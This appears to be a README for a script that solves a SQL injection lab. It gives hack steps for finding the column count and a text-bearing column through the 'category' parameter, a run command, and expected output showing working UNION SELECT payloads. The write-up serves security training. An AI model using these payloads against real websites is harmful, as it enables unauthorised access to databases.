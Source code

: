 # Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.
4. After determining the number of columns, replace each column with the desired text one at a time.
5. Repeat this process until you receive a valid response.

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python sql_injection_union_attack_finding_a_column_containing_text.py
```

# Expected Output

```
[#] Injection parameter: category
[#] Desired text: tJRvKS
[*] Trying payload: ' UNION SELECT null-- -
[*] Trying payload: ' UNION SELECT null, null-- -
[*] Trying payload: ' UNION SELECT null, null, null-- -
[#] Number of columns: 3
[*] Trying payload: ' UNION SELECT 'tJRvKS', null, null-- -
[*] Trying payload: ' UNION SELECT null, 'tJRvKS', null-- -
[#] the column containing text: 2
🗹 The lab should be marked now as solved
```
